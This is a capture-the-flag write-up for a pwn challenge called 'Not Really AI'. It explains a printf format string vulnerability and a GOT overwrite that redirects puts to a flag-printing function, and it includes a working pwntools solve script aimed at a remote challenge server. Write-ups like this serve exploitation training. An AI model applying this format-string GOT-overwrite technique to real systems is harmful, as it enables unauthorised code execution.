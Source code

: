 # Not Really AI
A pwn challenge. Just a simple format string exploit.

Protections: Partial RELRO, no PIE, therefore we can overwrite the GOT as it is not read-only.

When our input is asked for, it is printed out using printf without proper format strings.

Our input is put on the stack, so the program is vulnerable to arbtirary writes via `%n`.

There's no buffer overflow, and only one input, so we shouldn't be leaking anything.

We can send a simple format string overwrite payload to rewrite puts@GOT with the address of the function flaggy, and the flag will be yours.\
This works as puts@plt is called just after printf is called on our input, so we can overwrite the GOT entry with a different value.\
Thus when the plt is called it will find a different GOT value and jump to that.

Here is the solve script:
```python
from pwn import *
e = ELF("./nra")
def getproc():
    return remote('95.216.233.106',43941)
    #return e.process()
def write_fmt(string):
    p = getproc()
    p.sendline(string)
    p.recvline()
    out = p.recv()
    p.close()
    return out
auto = FmtStr(execute_fmt=write_fmt)
writes = {e.got['puts']: e.sym['flaggy']}
payload = fmtstr.fmtstr_payload(auto.offset, writes)
p = getproc()
p.sendline(payload)
p.interactive()
```
